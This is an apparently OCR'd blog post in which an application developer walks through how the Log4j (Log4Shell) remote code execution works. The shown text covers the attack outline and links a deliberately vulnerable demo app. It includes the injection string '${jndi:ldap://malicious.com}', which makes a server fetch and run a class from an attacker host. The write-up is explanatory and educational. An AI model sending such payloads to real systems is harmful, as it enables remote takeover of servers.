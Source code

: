 # Anatomy of an exploit: a source-level walkthrough of the Log4j RCE

Over Christmas, I decided to dive into the Log4j source code to more deeply understand how the recent major exploit works. I was driven by a combination of curiosity and a desire to develop some amount of intuition for how these exploits are discovered and constructed.

For context, I am not a security engineer. My background is in application development, and though I've acquired domain knowledge in various security-related things over the years (certain authN protocols), I'm far from an expert.

When previous major exploits have been published, I've read through blog posts explaining them at a high level, but never bothered to dive into to understand the lower-level details. Why would I? As an application engineer, those facts are only directly relevant to me if I am one of the unlucky few tasked with resolving them. But this lack of motivation to dive into the details is indicative of a larger gap between application and security engineers, a gap that was confirmed in conversations with several CISOs.

So I thought it would be fun and informative to try to understand how the Log4j exploit worked at a source level, and in doing so, write up my thoughts and reflections to share with others if they find them interesting.





Let's begin with a high-level diagram that outlines the key steps involved in the attack:

![attack diagram](https://s3.us-west-1.amazonaws.com/beyang.org-public/images/log4j.svg)

1. The attack begins with an attacker issuing a HTTP request to our vulnerable web service containing a string like `${jndi:ldap://malicious.com}`.
1. Our server receives the request and then logs the HTTP header metadata, which contains the malicious string.
1. Log4j will interpolate the value of `${jndi:ldap://malicious.com}` by using JNDI, a name lookup mechanism provided by the JDK, which in turn will attempt to resolve `ldap://malicious.com` by sending an LDAP request to the attacker's server.
1. The attacker's server will send a response containing metadata that identifies a Java class and a URL pointing back to the attacker's server as the place from which to fetch the class.
1. The vulnerable server fetches the class from the attacker's server.
1. The attacker's server responds with a malicious class, which the vulnerable server then receives and instantiates in order to finish computing the interpolated value.

Now for the deep dive into source code. We'll be walking through what happens at each step of the exploit across the code of the vulnerable service, Log4j, the JDK, and the attacker's server:

## Part 0: The vulnerable code

We start with a vulnerable application logging a HTTP request header value in a seemingly innocuous way:

https://sourcegraph.com/github.com/christophetd/log4shell-vulnerable-app/-/blob/src/main/java/fr/christophetd/log4shell/vulnerableapp/MainController.java?L17-20

If we were embedding this value unsanitized in a SQL query or a website, there would clearly be potential for a SQL injection or reflected XSS attack, but we're just logging it, so what's the worst that could happen? Well, let's take a look at what happens when an attacker sends a malicious payload as the header value.
